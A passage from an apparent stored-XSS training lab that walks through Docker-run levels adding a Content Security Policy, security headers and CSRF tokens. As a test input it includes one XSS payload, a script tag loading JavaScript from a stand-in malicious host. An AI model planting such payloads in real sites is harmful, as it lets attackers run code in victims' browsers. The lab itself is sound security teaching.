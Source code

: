 


Try this payload that attempts to load an external script:

```html
<script src="https://malicious-site.com/xss.js"></script>
```
![](./Assets/step4-1.png)

Even if a malicious script somehow made it through other protections, CSP provides an additional layer of defense by controlling which resources can be loaded and executed.

## Level 5: CSRF Protection & Security Headers

Let's move to the next level:

```bash
docker run -p 5000:5000 yeasin97/stored-xss:latest ./launch.sh 5
```

### The Fix: CSRF Protection and Additional Security Headers

This level adds CSRF protection and additional security headers:

```python
# Content Security Policy
response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'; object-src 'none'"
# Prevent MIME type sniffing
response.headers['X-Content-Type-Options'] = 'nosniff'
# Prevent clickjacking
response.headers['X-Frame-Options'] = 'SAMEORIGIN'
# Enable XSS protection in browsers
response.headers['X-XSS-Protection'] = '1; mode=block'
```


![](./Assets/csrf.png)

Notice the CSRF token in the form. This prevents Cross-Site Request Forgery attacks, which are often used in combination with XSS.

## Final Level: Comprehensive Security

Finally, let's see the fully secured version:

```bash
docker run -p 5000:5000 yeasin97/stored-xss:latest ./launch.sh final
```
